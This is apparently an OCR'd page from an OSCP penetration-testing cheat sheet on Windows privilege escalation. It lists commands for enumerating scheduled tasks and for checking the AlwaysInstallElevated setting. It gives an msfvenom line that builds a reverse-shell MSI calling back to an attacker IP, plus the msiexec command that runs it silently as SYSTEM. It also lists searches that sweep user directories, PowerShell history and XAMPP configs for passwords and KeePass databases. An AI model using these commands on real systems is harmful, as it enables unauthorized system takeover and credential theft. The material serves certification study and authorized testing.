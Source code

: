 **Scheduled tasks**

`schtasks /query /fo LIST /v`

`schtasks /query /v /fo LIST | findstr /i "<username>*”`

`Get-ScheduledTask`

**Check AlwaysInstallElevated Registry**

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` if returns with `0x1` make an MSI, it'll run as SYSTEM OR winpeas output

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/fdedcc3f-9a15-4ea1-b493-a7ea31353932)

- then on kali

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_ip LPORT=LOCAL_PORT -f msi -o malicious.msi`

- finally on target

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

********Check installed applications********

- Run winpeas process-info and searchsploit interesting applications

`.\winPEASx64.exe quiet processinfo`

- or 

`.\seatbelt.exe NonstandardProcesses`

**Check for Windows backup files in C:\ directory**

**Check powershell history files**

`(Get-PSReadlineOption).HistorySavePath`

- Check it out manually by going to this path 

`C:\Users\<UserName>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine`

**Check for database files**

`Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

**Check for useful files in User's directory**

`Get-ChildItem -Path C:\Users\<Filename>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,.log,.kdbx,.xml -File -Recurse -ErrorAction SilentlyContinue`

`Get-ChildItem -Path C:\Users\<Username> -Include *.txt -File -Recurse -ErrorAction SilentlyContinue`

`.log` `.kdbx` `.xml` literally any weird files in user's directory

**Check for XAMP path for databases:**

`Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`

**Check env variables for passwords and such**

